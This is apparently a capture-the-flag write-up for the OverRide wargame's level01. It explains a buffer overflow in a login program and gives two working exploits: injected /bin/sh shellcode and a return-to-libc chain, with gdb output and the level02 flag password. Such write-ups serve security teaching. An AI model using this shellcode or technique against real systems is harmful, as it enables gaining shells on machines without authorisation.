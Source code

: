 # level01
## Program behaviour

1. Ask for `username`
2. Test `username` equal to `dat_wil`
    - If not, `exit`
3. Ask for `password`
4. Print `"nope, incorrect password...\n"`;

## Vulnerability

The program asks for a `password` of maximum length `100`.
But the buffer only has a max capacity of `64`.
This is vunerable to buffer-overflow attacks.

## Exploitation

In both methods we overwrite the saved `$eip` at `$rbp+4` to jump after the `main` to the desired location.

### Method 1: Shellcode

Use the `password` buffer to inject a shellcode running `/bin/sh`

```sh
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "\x90"* 35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xbc\xd6\xff\xff"'; cat) | ~/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

### Method 2: Ret to libc

Overwrite `$rbp+4` (saved `$eip`) and `$rbp+12` to the function `system` and the string `/bin/sh` respectively.
The program upon exiting `main` will jump to `system` with `/bin/sh` as parameter.

```gdb
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) find 0xf7e6aed0, +9999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

```sh
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "\x90" * 80 + "\xd0\xae\xe6\xf7DUDE\xec\x97\xf8\xf7"';cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```